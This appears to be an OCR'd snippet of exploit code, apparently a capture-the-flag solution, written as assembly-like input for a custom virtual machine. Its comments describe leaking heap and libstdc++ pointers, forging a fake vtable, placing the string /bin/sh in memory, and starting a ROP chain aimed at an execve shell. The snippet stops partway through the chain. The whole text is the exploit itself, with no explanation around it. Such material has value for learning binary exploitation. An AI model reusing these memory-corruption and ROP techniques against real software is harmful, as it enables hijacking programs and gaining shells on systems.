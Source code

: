 ```python
@0x10
lda 0xff8
sta 0x7e8
lda 0xffa
sta 0x7ea
lda 0xffc
sta 0x7ec
lda 0xffe
sta 0x7ee

# change mem ptr to give us access to vtable ptr and libstdc++ leaks
lda 0x7fc
# jmp to 0x408
jmp 0x7fe

# string /bin/sh
@0x38
.0x622f
.0x6e69
.0x732f
.0x0068

# main ROP chain starts here
@0x40
@0x48
.0x3b
.0
.0
.0

@0x60
.0
.0
.0
.0

# now our mem ptr has lsb 00
@0x33a
jmp 0x8d0

@0x408
sta 0xff7

# code executed after mem ptr decreased for access to vtable ptr and leaks
@0x418
# store libstdc++ ptr in fake vtable, converted to gadget 1
ldc 0x0
adc 0x8d4
sta 0xfc8
lda 0x2
adc 0x8d6
sta 0xfca
lda 0x4
sta 0xfcc
lda 0x6
sta 0xfce

# restore heap leak onto vtable ptr, converted to fake vtable
lda 0x8b8
adc 0x8d2
sta 0xc0
lda 0x8ba
sta 0xc2
```